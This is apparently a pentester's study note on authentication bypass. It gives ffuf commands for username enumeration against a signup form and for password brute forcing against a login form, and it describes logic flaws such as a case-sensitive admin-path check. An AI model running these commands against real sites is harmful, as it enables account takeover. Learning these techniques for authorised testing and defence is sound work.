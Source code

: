 
# Username Enumeration
creating a list of valid usernames
a lot of websites return a Error message / HTTP Status which indicates that the username / email exists. e.g.:
- wrong password in login (and for other random (non existing) usernames there is another error message)
- username / emal already exists in registration

for emails you should use [Social Enigineering](../Social%20Enigineering.md) or [OSINT](OSINT.md)

for usernames:
Adjust Http method and fieldnames and error message and so on
`-mr` is the text on the page we are looking for to validate we've found a valid username. (match regular expression)
![](attachments/Pasted%20image%2020230602000640.png)
you can also specify specific http status codes with `-mc` 
```
ffuf -w WORDLIST -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u URL/customers/signup -mr "username already exists"
```


# Brute force
create a file with valid usernames / emails from [Username Enumeration](Authetication%20Bypass.md#Username%20Enumeration) e.g. `valid_usernames.txt`

`W1` = list of valid usernames
`W2` = list of possible passwords
`-fc` = check for an HTTP status code other than 200
```
ffuf -w valid_usernames.txt:W1,:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u URL/customers/login -fc 200
```


# Logic Flaws
search for logic flaws in webiste
e.g.:
- PHP Backend validates if the user role of a user visiting an admin page only if the URL starts with `/admin`, but makes it case sensetive and you can change the request to a different case like `/adMin` 
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
- API password reset takes a username of the account and email to send the confimation link separately and does not check if they belong together or so on..